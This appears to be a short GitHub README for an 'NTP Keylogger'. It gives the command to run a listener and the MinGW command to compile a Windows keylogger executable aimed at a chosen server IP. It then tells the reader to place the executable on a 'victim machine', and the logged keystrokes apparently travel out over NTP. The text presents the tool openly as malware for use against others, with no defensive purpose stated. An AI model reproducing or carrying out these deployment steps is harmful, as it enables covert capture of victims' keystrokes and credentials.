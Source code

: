 # NTP Keylogger   
## Listener
```
sudo python3 ntpserver.py
```

## Victim
Change the IP to your desired target server IP adress 
```
x86_64-w64-mingw32-gcc jlogger.c -o jlogger.exe -lwsock32 -w
```
Then throw the exe on the victim machine

This is how exe works:


![image](https://user-images.githubusercontent.com/45479002/209933030-92b10432-1884-40a9-9e4d-70584b4d3d91.png)

![jlogger](https://user-images.githubusercontent.com/45479002/209933048-ab41d906-ce19-4ecc-b0ce-1a270578874b.png)
